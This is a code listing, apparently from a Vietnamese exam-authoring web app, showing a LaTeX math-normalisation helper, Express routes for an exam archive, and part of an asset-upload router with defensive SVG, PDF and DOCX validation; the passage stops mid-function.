// Buoc 1: \sqrt{...}, \sqrt[n]{...}, \frac{...}{...} (da la LaTeX hop le) ->
// chi them dau $...$, KHONG bien doi noi dung.
function wrapLatexCommands(s) {
  const m = /\\(?:sqrt|dfrac|tfrac|frac)\b/.exec(s);
  if (!m) return s;
  const start = m.index;
  const name = /^\\(sqrt|dfrac|tfrac|frac)/.exec(s.slice(start))[1];
  const nArgs = name === 'sqrt' ? 1 : 2;
  let i = start + m[0].length;
  if (name === 'sqrt' && s[i] === '[') {
    const rb = s.indexOf(']', i);
    if (rb < 0) return s.slice(0, i) + wrapLatexCommands(s.slice(i));
    i = rb + 1;
  }
  for (let a = 0; a < nArgs; a++) {
    while (i < s.length && /\s/.test(s[i])) i++;
    if (s[i] !== '{') return s.slice(0, i) + wrapLatexCommands(s.slice(i));
    const rb = matchBrace(s, i);
    if (rb < 0) return s.slice(0, i) + wrapLatexCommands(s.slice(i));
    i = rb + 1;
  }
  // Hut them "^{...}" / "^x" / "_{...}" bam ngay sau (vd (\sqrt{a})^2 viet tho).
  const tail = /^(?:\s*[\^_](?:\{[^{}]*\}|[A-Za-z0-9]))+/.exec(s.slice(i));
  if (tail) i += tail[0].length;
  const wrapped = '$' + s.slice(start, i).trim() + '$';
  return s.slice(0, start) + wrapped + wrapLatexCommands(s.slice(i));
}

// Buoc 2: sqrt(...) ASCII -> $\sqrt{...}$
function wrapSqrtCalls(s) {
  const m = /\\?sqrt\s*\(/i.exec(s);
  if (!m) return s;
  const open = s.indexOf('(', m.index);
  const close = findMatchingParen(s, open);
  if (close < 0) {
    const cut = m.index + m[0].length;
    return s.slice(0, cut) + wrapSqrtCalls(s.slice(cut));
  }
  const inner = bareToLatex(s.slice(open + 1, close));
  return s.slice(0, m.index) + `$\\sqrt{${inner}}$` + wrapSqrtCalls(s.slice(close + 1));
}

// Buoc 3: √.. / ∛.. / ∜.. / ⁿ√.. (Unicode) -> $\sqrt[n]{...}$
function wrapUnicodeRadicals(s) {
  const m = RADICAL_RE.exec(s);
  if (!m) return s;
  const [full, sup, sym] = m;
  const after = m.index + full.length;
  let index = sym === '∛' ? '3' : sym === '∜' ? '4' : null;
  if (sup) index = [...sup].map(c => SUP_TO_DIGIT[c]).join('');

  let inner = null;
  let end = after;
  if (s[after] === '(') {
    const close = findMatchingParen(s, after);
    if (close >= 0) { inner = bareToLatex(s.slice(after + 1, close)); end = close + 1; }
  } else {
    const dm = /^([0-9]+|[A-Za-z])/.exec(s.slice(after));
    if (dm) { inner = bareToLatex(dm[1]); end = after + dm[1].length; }
  }
  if (inner === null) return s.slice(0, after) + wrapUnicodeRadicals(s.slice(after));

  const body = `$\\sqrt${index ? `[${index}]` : ''}{${inner}}$`;
  return s.slice(0, m.index) + body + wrapUnicodeRadicals(s.slice(end));
}

// Buoc 4: he so dung truoc cum $...$ ("2$\sqrt{3}$" -> "$2\sqrt{3}$"). Chi
// hut khi cum $...$ ngay sau la cong thuc (bat dau bang "\") - tranh dinh
// vao dau "$" DONG cua mot cum co san (vd "...\ge 0$ va $\sqrt{a}$").
function absorbLeadingCoefficient(s) {
  return s.replace(
    /(^|[^\\A-Za-z0-9$])([0-9]+)\$(\\[^$]+)\$/g,
    (_, pre, coef, body) => `${pre}$${coef}${body}$`
  );
}

// Buoc 5: ngoac don om sat cum $...$ ("($2\sqrt{3}$)" -> "$(2\sqrt{3})$").
// Chi hut khi phan ngoai cum $...$ (con lai trong ngoac) TOAN so + toan tu -
// khong co chu cai, tranh nuot chu tieng Viet (vd "(cho √x)").
function absorbHuggingParens(s) {
  return s.replace(/\(([-+0-9\s*×÷·]*)\$([^$]+)\$([-+0-9\s*×÷·]*)\)/g, (full, a, body, b) => {
    const left = bareToLatex(a);
    const right = bareToLatex(b);
    return `$(${[left, body, right].filter(Boolean).join(' ').replace(/\s{2,}/g, ' ').trim()})$`;
  });
}

// Buoc 6: phan so bac ngang qua cac cum $...$ ("$\sqrt{80}$ / $\sqrt{5}$"
// -> "$\frac{\sqrt{80}}{\sqrt{5}}$"; "2 / $\sqrt{3}$" -> "$\frac{2}{\sqrt{3}}$").
const FRAC_TERM = String.raw`\$[^$]+\$|\([^()]*\)|[0-9A-Za-z][0-9A-Za-z.]*|[⁰¹²³⁴⁵⁶⁷⁸⁹]+`;
// Mot ve co "cau truc toan" (da co $...$, \sqrt, \frac hoac ky tu can) thi
// chac chan la toan hoc -> bat phan so. Neu KHONG co cau truc, chi bat khi
// CA hai ve deu "gon" (khong khoang trang ben trong) - tranh nuot bat dang
// thuc go tay "(2x - 1)/3 - (x - 2)/2 >= (x + 1)/6" thanh phan so xep chong.
const STRUCTURAL_RE = /[$√∛∜]|\\sqrt|\\[dt]?frac/;
// "Cau 12/5", "Bai 3/4 trang 10", "Hinh 2/3", "ngay 12/5"... = so tham chieu
// / ngay thang, KHONG phai phan so. Chan khi ngay TRUOC cum "a/b" co tu dan
// (so sanh khong dau de bat "Câu"/"Bài"/"Hình").
const REF_WORD_RE = /(?:cau|bai|trang|hinh|sgk|sbt|ngay)\s*$/;
function precededByReferenceWord(s, idx) {
  const ctx = s.slice(Math.max(0, idx - 16), idx)
    .normalize('NFD').replace(/\p{M}/gu, '').toLowerCase();
  return REF_WORD_RE.test(ctx);
}
function mergeFractions(s) {
  // Bien "chu cai" o 2 dau (ke ca chu co dau tieng Viet) chan viec cat 1 tu
  // xuoi lam ve phan so (vd "phương án" -> "ph" / "..." ).
  const re = new RegExp(
    `(?<![\\p{L}\\p{M}])(${FRAC_TERM})(\\s{0,2})\\/(\\s{0,2})(${FRAC_TERM})(?![\\p{L}\\p{M}])`,
    'gu'
  );
  const innerOf = t => t.replace(/^\$([\s\S]*)\$$/, '$1');
  const tight = t => !/\s/.test(innerOf(t));
  const hasStruct = t => STRUCTURAL_RE.test(t);
  let out = '';
  let last = 0;
  let m;
  while ((m = re.exec(s)) !== null) {
    const [full, num, , , den] = m;
    const eligible =
      isLikelyFraction(plainOf(num), plainOf(den)) &&
      !precededByReferenceWord(s, m.index) &&
      (hasStruct(num) || hasStruct(den) || (tight(num) && tight(den)));
    if (!eligible) {
      re.lastIndex = m.index + num.length + 1;
      continue;
    }
    out += s.slice(last, m.index) +
      `$\\frac{${bareToLatex(num, true)}}{${bareToLatex(den, true)}}$`;
    last = m.index + full.length;
    re.lastIndex = last;
  }
  return out + s.slice(last);
}

// Buoc 7: gop cac cum $...$ ke nhau chi cach nhau boi toan tu / khoang trang
// (KHONG co chu cai) thanh 1 cum -> KaTeX ve 1 lan, baseline dong nhat.
function mergeAdjacentSpans(s) {
  // Ngan cach chi duoc la khoang trang HOAC dung 1 toan tu toan hoc (khong
  // dau cau "," ";" ":" - nhung dau do thuong la van xuoi tieng Viet).
  const re = /\$([^$]+)\$([ \t]+|[ \t]*[-+=*×÷·][ \t]*)\$([^$]+)\$/;
  let prev = null;
  while (prev !== s) {
    prev = s;
    s = s.replace(re, (_, a, sep, b) => {
      const op = sep.replace(/\*/g, ' \\times ').replace(/×/g, ' \\times ')
        .replace(/÷/g, ' \\div ').replace(/·/g, ' \\cdot ').trim();
      return `$${a.trim()}${op ? ` ${op} ` : ' '}${b.trim()}$`;
    });
  }
  return s;
}

// Buoc 8: nuot toan hang tran ("= 4", "+ 2", "- 3") dung NGAY sau mot cum
// $...$ vao trong cum do -> KaTeX ve ca ve "= 4" lien mach 1 duong nen.
// Chi nuot SO (co the am / thap phan) hoac cum ngoac toan-hoc-thuan; gap
// chu cai (van xuoi tieng Viet) hoac dau cau thi DUNG.
const TRAILING_OPERAND = String.raw`-?\d+(?:[.,]\d+)?|\([-+\d\s*/×÷·.]+\)`;
function absorbTrailingOperand(s) {
  const re = new RegExp(
    `\\$([^$]+)\\$([ \\t]*[-+=*×÷·][ \\t]*)(${TRAILING_OPERAND})(?![\\w²³⁰¹⁴⁵⁶⁷⁸⁹])`,
    'g'
  );
  let prev = null;
  while (prev !== s) {
    prev = s;
    s = s.replace(re, (_, body, op, operand) => `$${body.trim()} ${op.trim()} ${operand.trim()}$`);
  }
  return s;
}

// Buoc 0: \begin{env}...\end{env} (cases, matrix, aligned...) dung tran ngoai
// $...$ -> boc thanh $$...$$ (block) de KaTeX/JLaTeXMath ve. Ton trong vung
// $...$ / $$...$$ da co (splitProtected coi la khoi kin).
const BLOCK_ENVS = new Set([
  'cases', 'matrix', 'pmatrix', 'bmatrix', 'Bmatrix', 'vmatrix', 'Vmatrix',
  'array', 'aligned', 'align', 'align*', 'alignedat', 'gathered', 'gather',
  'gather*', 'split', 'equation', 'equation*'
]);
const BEGIN_ENV_RE = /\\begin\{([A-Za-z]+\*?)\}/g;
function wrapBlockEnvironments(text) {
  return splitProtected(text).map(p => {
    if (p.math) return p.value;
    const s = p.value;
    let out = '';
    let cursor = 0;
    BEGIN_ENV_RE.lastIndex = 0;
    let m;
    while ((m = BEGIN_ENV_RE.exec(s)) !== null) {
      if (m.index < cursor) continue;
      if (!BLOCK_ENVS.has(m[1])) continue;
      const endTag = `\\end{${m[1]}}`;
      const endIdx = s.indexOf(endTag, m.index + m[0].length);
      if (endIdx < 0) continue;
      const stop = endIdx + endTag.length;
      out += s.slice(cursor, m.index) + `$$${s.slice(m.index, stop)}$$`;
      cursor = stop;
      BEGIN_ENV_RE.lastIndex = stop;
    }
    return out + s.slice(cursor);
  }).join('');
}

// Chay 1 buoc merge/absorb CHI tren phan van ban NGOAI cac block $$...$$
// (tranh regex phan so cat "a/b" nam trong \begin{cases}...\end{cases}).
function outsideBlocks(s, fn) {
  return s.split(/(\$\$[^$]*\$\$)/).map((seg, i) => (i % 2 === 0 ? fn(seg) : seg)).join('');
}

function onePass(text) {
  let s = wrapBlockEnvironments(text);
  s = splitProtected(s)
    .map(p => {
      if (p.math) return p.value;
      let seg = p.value;
      seg = wrapLatexCommands(seg);
      seg = wrapSqrtCalls(seg);
      seg = wrapUnicodeRadicals(seg);
      return seg;
    })
    .join('');
  s = outsideBlocks(s, absorbLeadingCoefficient);
  s = outsideBlocks(s, absorbHuggingParens);
  s = outsideBlocks(s, mergeFractions);
  s = outsideBlocks(s, mergeAdjacentSpans);
  s = outsideBlocks(s, absorbTrailingOperand);
  return s;
}

// Hard rule 8: dau "$" LE (khong ghep thanh cap $...$) khong duoc lam hong
// buoc sau. Ghep cap tham lam tu trai; "$" con du -> tam thay bang sentinel
// (PUA, khong khop \p{L}/[0-9A-Za-z]/toan tu) roi tra lai o cuoi.
const LONE_DOLLAR_SENTINEL = String.fromCharCode(0xF8FF);
const dollarCount = s => (s.match(/\$/g) || []).length;
function guardLoneDollars(text) {
  if (dollarCount(text) % 2 === 0) return { text, restore: s => s };
  // "$" dinh sat chu so (tien te "5$" / "$5") gan nhu chac chan la dau LE.
  let out = text.replace(/(?<=\d)\$|\$(?=\d)/g, LONE_DOLLAR_SENTINEL);
  if (dollarCount(out) % 2 === 1) {
    // Van le -> sentinel dau "$" CUOI cung (ghep cap tham lam tu trai).
    const last = out.lastIndexOf('$');
    out = out.slice(0, last) + LONE_DOLLAR_SENTINEL + out.slice(last + 1);
  }
  return { text: out, restore: s => s.split(LONE_DOLLAR_SENTINEL).join('$') };
}

/**
 * Boc moi cau truc toan 2 chieu ngoai $...$ thanh $...$ LaTeX. Idempotent.
 */
export function promoteStructuralMath(text) {
  if (typeof text !== 'string' || !text) return text;
  const guarded = guardLoneDollars(text);
  let result = guarded.text;
  for (let i = 0; i < 6; i++) {
    const next = onePass(result);
    if (next === result) break;
    result = next;
  }
  return guarded.restore(result);
}

```

### FILE: backend/routes/archiveRoutes.js

```javascript
const express = require('express');
const crypto = require('crypto');
const { getDb } = require('../database');
const { validateExamPayload } = require('../examValidation');
const { buildAssetManifest } = require('../templates/assetManifest');

const router = express.Router();

/**
 * Kho de (lich su luu tru). Moi de la 1 dong SAVED_EXAM voi payload_json giu
 * nguyen { title, subject, duration_minutes, school_header, blocks }. Xoa la
 * "mem" (dat deleted_at) de tombstone con lan duoc qua Gist khi Push.
 */

router.get('/', async (req, res) => {
  const db = await getDb();
  try {
    const rows = await db.all(
      `SELECT exam_id, title, subject, duration_minutes, created_at, updated_at
       FROM SAVED_EXAM WHERE deleted_at IS NULL ORDER BY updated_at DESC`
    );
    res.json({ success: true, exams: rows });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc kho de' });
  }
});

router.get('/:exam_id', async (req, res) => {
  const db = await getDb();
  try {
    const row = await db.get(
      `SELECT * FROM SAVED_EXAM WHERE exam_id = ? AND deleted_at IS NULL`,
      [req.params.exam_id]
    );
    if (!row) return res.status(404).json({ success: false, error: 'Khong tim thay de trong kho' });

    let payload = {};
    try {
      payload = JSON.parse(row.payload_json || '{}');
    } catch {
      return res.status(500).json({ success: false, error: 'Du lieu de trong kho bi hong' });
    }

    res.json({
      success: true,
      exam: {
        exam_id: row.exam_id,
        title: payload.title != null ? payload.title : row.title,
        subject: payload.subject != null ? payload.subject : row.subject,
        duration_minutes: payload.duration_minutes != null ? payload.duration_minutes : row.duration_minutes,
        school_header: payload.school_header != null ? payload.school_header : row.school_header,
        blocks: Array.isArray(payload.blocks) ? payload.blocks : [],
        template_binding: payload.template_binding || null,
        created_at: row.created_at,
        updated_at: row.updated_at
      }
    });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi doc de trong kho' });
  }
});

router.post('/', async (req, res) => {
  const db = await getDb();
  const { exam_id, title, subject, duration_minutes, school_header, blocks, template_binding } = req.body;

  if (!title || !String(title).trim()) {
    return res.status(400).json({ success: false, error: 'Thieu title' });
  }
  if (!Array.isArray(blocks)) {
    return res.status(400).json({ success: false, error: 'blocks khong hop le' });
  }
  if (template_binding != null && (typeof template_binding !== 'object' || Array.isArray(template_binding) ||
      Buffer.byteLength(JSON.stringify(template_binding), 'utf8') > 1024 * 1024)) {
    return res.status(400).json({ success: false, error: 'template_binding không hợp lệ hoặc quá lớn' });
  }
  const validationErrors = validateExamPayload(blocks);
  if (validationErrors.length > 0) {
    return res.status(400).json({ success: false, error: 'Du lieu de thi khong hop le', details: validationErrors });
  }

  const payload = {
    title: String(title).trim(),
    subject: subject || '',
    duration_minutes: duration_minutes != null ? duration_minutes : null,
    school_header: school_header || '',
    blocks
  };
  if (Object.prototype.hasOwnProperty.call(req.body, 'template_binding') && template_binding != null) {
    payload.template_binding = template_binding;
  }

  try {
    let examId = exam_id;
    let existing = null;
    if (examId) {
      existing = await db.get('SELECT exam_id, payload_json FROM SAVED_EXAM WHERE exam_id = ?', [examId]);
    }

    // Older clients omit the new field. Preserve the existing snapshot in that
    // case; explicit null is the only request that clears the association.
    if (existing && !Object.prototype.hasOwnProperty.call(req.body, 'template_binding')) {
      try {
        const previous = JSON.parse(existing.payload_json || '{}');
        if (previous.template_binding) payload.template_binding = previous.template_binding;
      } catch { /* legacy payload is malformed; exam fields still save */ }
    }
    if (payload.template_binding?.template_snapshot) {
      payload.template_binding = {
        ...payload.template_binding,
        asset_manifest: buildAssetManifest(payload.template_binding.template_snapshot, payload.template_binding.asset_manifest)
      };
    }
    const payloadJson = JSON.stringify(payload);

    if (existing) {
      // Khong dung lai deleted_at o day: neu de da bi xoa (tombstone), mot lan
      // autosave nen background KHONG "hoi sinh" no. Muon lay lai de da xoa thi
      // dung "Keo ve" (Pull) - cloud thang khi merge.
      await db.run(
        `UPDATE SAVED_EXAM
         SET title = ?, subject = ?, duration_minutes = ?, school_header = ?,
             payload_json = ?, updated_at = strftime('%Y-%m-%dT%H:%M:%SZ','now')
         WHERE exam_id = ?`,
        [String(title).trim(), subject || null, duration_minutes || null, school_header || null, payloadJson, examId]
      );
    } else {
      examId = examId || crypto.randomUUID();
      await db.run(
        `INSERT INTO SAVED_EXAM (exam_id, title, subject, duration_minutes, school_header, payload_json)
         VALUES (?, ?, ?, ?, ?, ?)`,
        [examId, String(title).trim(), subject || null, duration_minutes || null, school_header || null, payloadJson]
      );
    }

    res.json({ success: true, exam_id: examId, updated: !!existing });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi luu de vao kho' });
  }
});

router.delete('/:exam_id', async (req, res) => {
  const db = await getDb();
  try {
    const result = await db.run(
      `UPDATE SAVED_EXAM
       SET deleted_at = strftime('%Y-%m-%dT%H:%M:%SZ','now'),
           updated_at = strftime('%Y-%m-%dT%H:%M:%SZ','now')
       WHERE exam_id = ? AND deleted_at IS NULL`,
      [req.params.exam_id]
    );
    if (!result.changes) {
      return res.status(404).json({ success: false, error: 'Khong tim thay de trong kho' });
    }
    res.json({ success: true });
  } catch (err) {
    console.error(err);
    res.status(500).json({ success: false, error: 'Loi xoa de khoi kho' });
  }
});

module.exports = router;

```

### FILE: backend/routes/backgroundRoutes.js

```javascript
const express = require('express');
const fs = require('fs/promises');
const path = require('path');
const crypto = require('crypto');
const zlib = require('zlib');
const multer = require('multer');
const mammoth = require('mammoth');
const { PDFParse } = require('pdf-parse');
const { docxToPdf } = require('../documentConvert/docxToPdf');

const router = express.Router();
const upload = multer({ storage: multer.memoryStorage(), limits: { fileSize: 20 * 1024 * 1024, files: 1 } });
const imageExt = { '.png': 'image/png', '.jpg': 'image/jpeg', '.jpeg': 'image/jpeg', '.webp': 'image/webp', '.svg': 'image/svg+xml' };
const documentExt = { '.pdf': 'application/pdf', '.docx': 'application/vnd.openxmlformats-officedocument.wordprocessingml.document' };
const backgroundDir = () => process.env.EXAM_BACKGROUNDS_DIR || path.join(__dirname, '..', '..', 'resources', 'backgrounds');
const assetDir = () => process.env.EXAM_TEMPLATE_ASSETS_DIR || path.join(__dirname, '..', '..', 'resources', 'template-assets');

function safeSvg(buffer) {
  if (buffer.length > 256 * 1024) return false;
  const xml = buffer.toString('utf8').trim();
  if (!/^<svg\s/i.test(xml) || !/(?:<\/svg>|\/>\s*)$/i.test(xml)) return false;
  if (/[\x00-\x1f]|<!|<\?|&|\b(?:script|foreignObject|image|use|animate|set|style|filter|pattern|mask|clipPath|iframe|object|embed)\b|\bon[a-z]+\s*=|\b(?:href|src|style)\s*=|url\s*\(|javascript\s*:/i.test(xml)) return false;
  const tags = [...xml.matchAll(/<\/?([a-z][\w:-]*)\b([^>]*)>/gi)];
  const allowedTags = new Set(['svg', 'g', 'rect', 'circle', 'ellipse', 'line', 'polyline', 'polygon', 'path']);
  if (!tags.length || tags.length > 256 || tags.some(t => !allowedTags.has(t[1]))) return false;
  if (xml.replace(/<\/?[a-z][\w:-]*\b[^>]*>/gi, '').trim()) return false;
  const stack = [];
  for (const tag of tags) {
    if (tag[0].startsWith('</')) {
      if (stack.pop() !== tag[1]) return false;
    } else if (!tag[0].endsWith('/>')) {
      if (!stack.length && tag[1] !== 'svg') return false;
      stack.push(tag[1]);
    }
    if (!stack.length && tag !== tags.at(-1)) return false;
  }
  if (stack.length) return false;
  const allowedAttrs = new Set(['xmlns', 'width', 'height', 'viewBox', 'x', 'y', 'x1', 'x2', 'y1', 'y2', 'cx', 'cy', 'rx', 'ry', 'r', 'd', 'points', 'fill', 'stroke', 'stroke-width', 'opacity', 'fill-opacity', 'stroke-opacity', 'transform']);
  for (const tag of tags) {
    let tail = tag[2].replace(/\/\s*$/, '').trim();
    while (tail) {
      const m = tail.match(/^([\w:-]+)\s*=\s*(["'])([^"'<>;&]*)\2\s*/);
      if (!m || !allowedAttrs.has(m[1])) return false;
      if (['fill', 'stroke'].includes(m[1]) && !/^(?:none|transparent|#[0-9a-f]{3,8}|[a-z]+)$/i.test(m[3])) return false;
      tail = tail.slice(m[0].length);
    }
  }
  return true;
}

// Check ZIP central directory and inflate every entry under explicit bounds before
// passing a DOCX to mammoth. A small compressed upload can otherwise expand hugely.
function validDocxZip(buffer) {
  const MAX_ENTRIES = 2000, MAX_ENTRY = 20 * 1024 * 1024, MAX_TOTAL = 50 * 1024 * 1024;
  let eocd = -1;
  for (let p = buffer.length - 22; p >= Math.max(0, buffer.length - 65557); p--) {
    if (buffer.readUInt32LE(p) === 0x06054b50 && p + 22 + buffer.readUInt16LE(p + 20) === buffer.length) { eocd = p; break; }
  }
  if (eocd < 0 || buffer.readUInt16LE(eocd + 4) !== 0 || buffer.readUInt16LE(eocd + 6) !== 0) return false;
  const count = buffer.readUInt16LE(eocd + 10);
  const centralSize = buffer.readUInt32LE(eocd + 12);
  let pos = buffer.readUInt32LE(eocd + 16);
  if (!count || count > MAX_ENTRIES || pos + centralSize > eocd) return false;
  const centralStart = pos;
  const centralEnd = pos + centralSize;
  const names = new Set();
  let total = 0;
  for (let i = 0; i < count; i++) {
    if (pos + 46 > centralEnd || buffer.readUInt32LE(pos) !== 0x02014b50) return false;
    const flags = buffer.readUInt16LE(pos + 8), method = buffer.readUInt16LE(pos + 10);
    const compressed = buffer.readUInt32LE(pos + 20), expanded = buffer.readUInt32LE(pos + 24);
    const nameLength = buffer.readUInt16LE(pos + 28), extra = buffer.readUInt16LE(pos + 30), comment = buffer.readUInt16LE(pos + 32);
    const local = buffer.readUInt32LE(pos + 42);
    if (flags & 1 || ![0, 8].includes(method) || expanded > MAX_ENTRY || compressed > MAX_ENTRY || (compressed && expanded > compressed * 200)) return false;
    total += expanded;
    if (total > MAX_TOTAL || pos + 46 + nameLength + extra + comment > centralEnd) return false;
    const name = buffer.toString('utf8', pos + 46, pos + 46 + nameLength);
    if (!name || name.includes('\\') || name.startsWith('/') || name.split('/').includes('..') || names.has(name)) return false;
    names.add(name);
    if (local + 30 > pos || buffer.readUInt32LE(local) !== 0x04034b50) return false;
    const data = local + 30 + buffer.readUInt16LE(local + 26) + buffer.readUInt16LE(local + 28);
    if (data + compressed > centralStart) return false;
    try {
      const raw = buffer.subarray(data, data + compressed);
      const actual = method === 8 ? zlib.inflateRawSync(raw, { maxOutputLength: expanded + 1 }).length : raw.length;
      if (actual !== expanded) return false;
    } catch { return false; }
    pos += 46 + nameLength + extra + comment;
  }
  return pos === centralEnd && names.has('[Content_Types].xml') && names.has('word/document.xml');
}

function validBuffer(buffer, ext) {
  if (!buffer || buffer.length < 8) return false;
  if (ext === '.png') return buffer.subarray(0, 8).equals(Buffer.from([137, 80, 78, 71, 13, 10, 26, 10]));
  if (ext === '.jpg' || ext === '.jpeg') return buffer[0] === 255 && buffer[1] === 216 && buffer.at(-2) === 255 && buffer.at(-1) === 217;
  if (ext === '.webp') return buffer.toString('ascii', 0, 4) === 'RIFF' && buffer.toString('ascii', 8, 12) === 'WEBP';
  if (ext === '.svg') return safeSvg(buffer);
  if (ext === '.pdf') return buffer.toString('ascii', 0, 5) === '%PDF-' && buffer.toString('latin1', Math.max(0, buffer.length - 1024)).includes('%%EOF');
  if (ext === '.docx') return buffer.toString('ascii', 0, 2) === 'PK' && validDocxZip(buffer);
  return false;
}

async function saveAsset(file, ext, mime, dir, kind) {
  const sha256 = crypto.createHash('sha256').update(file.buffer).digest('hex');
  const asset_id = `${kind}-${sha256}`;
  const filename = `${asset_id}${ext === '.jpeg' ? '.jpg' : ext}`;
  await fs.mkdir(dir, { recursive: true });
  await fs.writeFile(path.join(dir, filename), file.buffer, { flag: 'wx' }).catch(e => { if (e.code !== 'EEXIST') throw e; });
  const asset = { asset_id, filename, mime, size: file.buffer.length, sha256, original_name: path.basename(file.originalname || filename) };
  await fs.writeFile(path.join(dir, `${asset_id}.json`), JSON.stringify(asset), { flag: 'wx' }).catch(e => { if (e.code !== 'EEXIST') throw e; });
  return asset;
}

function multipart(req, res, next) {
  upload.single('file')(req, res, err => {
    if (err) return res.status(400).json({ success: false, error: err.code === 'LIMIT_FILE_SIZE' ? 'File vuot gioi han 20 MB' : err.message });
    if (!req.file) return res.status(400).json({ success: false, error: 'Thieu file' });
    next();
  });
}

// Legacy response remains a filename array for the existing dropdown.
router.get('/', async (req, res) => {
  try { res.json((await fs.readdir(backgroundDir())).filter(f => imageExt[path.extname(f).toLowerCase()])); }
  catch (e) { if (e.code === 'ENOENT') return res.json([]); res.status(500).json({ error: 'Khong doc duoc thu muc anh nen.' }); }
});

router.get('/assets', async (req, res) => {
  const assets = [];
  for (const dir of [backgroundDir(), assetDir()]) {
    try {
      for (const name of await fs.readdir(dir)) {
        if (!/^(image|document)-[0-9a-f]{64}\.json$/.test(name)) continue;
        const a = JSON.parse(await fs.readFile(path.join(dir, name), 'utf8'));
        assets.push({ ...a, url: a.asset_id.startsWith('image-') ? `/backgrounds/${a.filename}` : `/api/backgrounds/assets/${a.asset_id}/file` });
      }
    } catch (e) { if (e.code !== 'ENOENT') return res.status(500).json({ success: false, error: 'Khong doc duoc thu vien asset' }); }
  }
  res.json({ success: true, assets });
});

router.get('/assets/:id/file', async (req, res) => {
  if (!/^document-[0-9a-f]{64}$/.test(req.params.id)) return res.sendStatus(404);
  try {
    const a = JSON.parse(await fs.readFile(path.join(assetDir(), `${req.params.id}.json`), 'utf8'));
    res.set('Content-Type', a.mime);
    res.set('Content-Disposition', `attachment; filename="${a.asset_id}${path.extname(a.filename)}"`);
    res.set('X-Content-Type-Options', 'nosniff');
    res.sendFile(path.join(assetDir(), a.filename));
  } catch (e) { res.sendStatus(404); }
});

router.post('/upload', multipart, async (req, res) => {
  const ext = path.extname(req.file.originalname || '').toLowerCase();
  if (!imageExt[ext] || !validBuffer(req.file.buffer, ext)) return res.status(400).json({ success: false, error: 'Anh khong hop le hoac khong an toan' });
  try {
    const a = await saveAsset(req.file, ext, imageExt[ext], backgroundDir(), 'image');
    res.json({ success: true, asset: { ...a, url: `/backgrounds/${a.filename}` } });
  } catch (e) { res.status(500).json({ success: false, error: 'Khong luu duoc anh nen' }); }
});

async function extractText(buffer, ext) {
  if (ext === '.docx') {
    const text = (await mammoth.extractRawText({ buffer })).value || '';
    if (Buffer.byteLength(text, 'utf8') > 1024 * 1024) throw new Error('Text vuot gioi han');
    return text;
  }
  let parser;
  try {
    parser = new PDFParse({ data: buffer });
    const info = await parser.getInfo({ parsePageInfo: false });
    if (!Number.isSafeInteger(info.total) || info.total < 1 || info.total > 100) throw new Error('PDF vuot gioi han 100 trang');
    const text = (await parser.getText()).text || '';
    if (Buffer.byteLength(text, 'utf8') > 1024 * 1024) throw new Error('Text vuot gioi han');
    return text;
  }
  finally { if (parser) await parser.destroy(); }
}

async function rasterPdfPages(buffer) {
  const pages = [];
  const warnings = [];
  let parser;
  try {
    parser = new PDFParse({ data: buffer });
    const info = await parser.getInfo({ parsePageInfo: false });
    const count = Math.min(info.total, 100);
    if (info.total > 100) warnings.push(`PDF co ${info.total} trang; chi nhan toi da 100 trang dau lam nen, file goc giu nguyen.`);
    let storedBytes = 0;
    for (let pageNumber = 1; pageNumber <= count; pageNumber++) {
      let pageBytes = 0;
      try {
        const rendered = await parser.getScreenshot({ partial: [pageNumber], desiredWidth: 960, imageBuffer: true, imageDataUrl: false });
        const shot = rendered.pages?.[0];
        const image = shot?.data && Buffer.from(shot.data);
        pageBytes = image?.length || 0;
        if (!shot || shot.pageNumber !== pageNumber || !Number.isFinite(shot.width) || !Number.isFinite(shot.height) || shot.width > 1200 || shot.height > 2400 || !image || image.length > 2 * 1024 * 1024 || storedBytes + image.length > 12 * 1024 * 1024 || !validBuffer(image, '.png')) {
          throw new Error('Trang PDF vuot gioi han anh nen');
        }
        const a = await saveAsset({ buffer: image, originalname: `page-${pageNumber}.png` }, '.png', 'image/png', backgroundDir(), 'image');
        pages.push({ page_number: pageNumber, asset_id: a.asset_id, sha256: a.sha256, mime: a.mime, size: a.size, url: `/backgrounds/${a.filename}`, width: shot.width, height: shot.height });
        storedBytes += image.length;
      } catch (e) {
        const reason = storedBytes + pageBytes > 12 * 1024 * 1024 ? 'vuot ngan sach 12 MiB' : 'gap gioi han kich thuoc/loi raster';
        warnings.push(`Khong chuyen duoc trang ${pageNumber} do ${reason}; da raster ${pages.length}/${info.total} trang. File PDF goc van day du de tai ve.`);
        break;
      }
    }
  } catch (e) { warnings.push('Khong chuyen duoc PDF thanh anh nen; file goc van duoc luu de danh dau vung thu cong.'); }
  finally { if (parser) await parser.destroy(); }
  return { pages, warnings };
}

async function rasterDocxPages(buffer) {
  try { return await rasterPdfPages(await docxToPdf(buffer)); }
  catch {
    return { pages: [], warnings: ['DOCX goc da duoc luu; khong chuyen duoc thanh anh trang. Can Microsoft Word tren Windows de raster hoa; co the tai file goc va danh dau vung thu cong.'] };
  }
}

function suggestStructure(text) {
  const sections = [];
  let current = { title: 'Phan 1', questions: [] };
  let questionCount = 0;
  for (const line of text.split(/\r?\n/).map(s => s.trim()).filter(Boolean)) {
    if (sections.length >= 30 || questionCount >= 200) break;
    if (/^(?:PHẦN|PHAN)\s+(?:[IVX]+|\d+)\b/i.test(line)) {
      if (current.questions.length || sections.length) sections.push(current);
      current = { title: line.slice(0, 160), questions: [] };
    } else if (/^(?:Câu|Cau|Question)\s*\d+[.:)]\s*/i.test(line)) {
      current.questions.push({ text: line.slice(0, 4000), confidence: 'low', review_required: true });
      questionCount++;
    } else if (current.questions.length) {
      const q = current.questions.at(-1); q.text = `${q.text}\n${line}`.slice(0, 4000);
    }
  }
  if (current.questions.length || sections.length) sections.push(current);
  return sections;
}

router.post('/import', multipart, async (req, res) => {
  const mode = req.body.mode;
  if (!['background', 'structure'].includes(mode)) return res.status(400).json({ success: false, error: 'mode phai la background hoac structure' });
  const ext = path.extname(req.file.originalname || '').toLowerCase();
  if (!documentExt[ext] || !validBuffer(req.file.buffer, ext)) return res.status(400).json({ success: false, error: 'Chi nhan DOCX/PDF hop le' });
  try {
    if (ext === '.pdf' && mode === 'background') {
      let parser;
      let info;
      try { parser = new PDFParse({ data: req.file.buffer }); info = await parser.getInfo({ parsePageInfo: false }); }
      finally { if (parser) await parser.destroy(); }
      if (!Number.isSafeInteger(info?.total) || info.total < 1) return res.status(400).json({ success: false, error: 'PDF khong co trang hop le' });
